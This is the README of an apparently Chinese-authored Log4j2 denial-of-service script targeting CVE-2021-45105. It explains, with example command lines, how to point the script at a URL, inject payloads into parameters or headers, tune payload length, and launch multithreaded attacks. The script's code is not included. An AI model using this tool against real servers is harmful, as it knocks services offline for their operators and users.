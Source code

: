 # 说明 about

 author: 我超怕的

 blog: https://www.cnblogs.com/iAmSoScArEd/

 github: https://github.com/iAmSOScArEd/

 date: 2021-12-20 

log4j2 dos exploit 

log4j2 dos 漏洞利用脚本

CVE-2021-45105 Exploit

CVE-2021-45105 利用脚本

# 利用方式 how to use

## English：

```bash
Log4j2_dos.py -u <url> -m <method> -d <params> -H <header> -l <loop> -t <thread>

-u,--url    	  attack target
-m,--method    http method, only get and post. default is get.
-d,--data   	  get or post params, json format like:{\"username\":\"\"}
-H,--header    request header, json format like:{\"user-agent\":\"\"}
-l,--loop    	 payload loop times (or length),default 100.it is determine where is the params, example get param max length or post param max length or request header max length
-t,--thread    attack thread. default is 0, just request once.

usage:
Log4j2_dos.py -u http://url.com/ -d {\"username\":\"\"}
Log4j2_dos.py -u http://url.com/ -d {\"username\":\"\"} -l 500 -t 100
Log4j2_dos.py -u http://url.com/ -m post -d {\"username\":\"\"} -l 500
Log4j2_dos.py -u http://url.com/ -m post -H {\"user-agent\":\"\"} -l 500 -t 100
Log4j2_dos.py -u http://url.com/ -m post -d {\"username\":\"\"} -H {\"user-agent\":\"\"} -l 500
```
-l (--loop) the value needs to be set separately depending on the scene, not the larger the better. If it exceeds the length that the web server can accept, it may cause the attack detection to fail and no attack effect.

Output format：

[+] normal time:0.11111

[+] attack time:2.00000

if attack time -normal time>1 or something，it maybe exist vulnerability，can use -t param set attack thread.

## 中文：

```bash
 Log4j2_dos.py -u <url> -m <method> -d <params> -H <header> -l <loop> -t <thread>
 
-u,--url   		 攻击目标
-m,--method    默认为get，http方式，仅支持get和post
-d,--data   	 get或post请求参数，json格式，如：{\"username\":\"\"}
-H,--header    请求头, json格式， 如：{\"user-agent\":\"\"}
-l,--loop    	 默认为100，payload循环长度,根据参数在不同的位置，设置不同的数值，如请求头最大允许长度、get最大长度、post最大长度
-t,--thread    默认为0,表示仅请求一次。攻击线程。

常见用法:
# 默认get，100个payload循环，攻击探测一次，在username参数中添加攻击payload
Log4j2_dos.py -u http://url.com/ -d {\"username\":\"\"}
# 默认get，设置500个payload循环，发起100个攻击线程，在username参数中添加攻击payload
Log4j2_dos.py -u http://url.com/ -d {\"username\":\"\"} -l 500 -t 100
# 指定POST，设置500个payload循环，攻击探测一次，在username参数中添加攻击payload
Log4j2_dos.py -u http://url.com/ -m post -d {\"username\":\"\"} -l 500
# 指定POST，设置500个payload循环，发起100个攻击线程，在user-agent请求头中添加攻击payload
Log4j2_dos.py -u http://url.com/ -m post -H {\"user-agent\":\"\"} -l 500 -t 100
# 指定POST，设置500个payload循环，攻击探测一次，在username参数和user-agent请求头中添加攻击payload
Log4j2_dos.py -u http://url.com/ -m post -d {\"username\":\"\"} -H {\"user-agent\":\"\"} -l 500
```

-l（--loop） 数值需要看场景分别设置，并不是越大越好，如果超出web服务器所能接受的长度，可能会导致攻击探测失败，没有攻击效果。

输出格式：

[+] normal time:0.11111

[+] attack time:2.00000

如果attack time延迟很大，说明漏洞存在，可以利用-t参数设置攻击线程

# 免责声明

请勿用于非法用途，仅供学习参考。
任何违法行为与本人无关。

(蹩脚英语，没用翻译，将就看。)

By：我超怕的
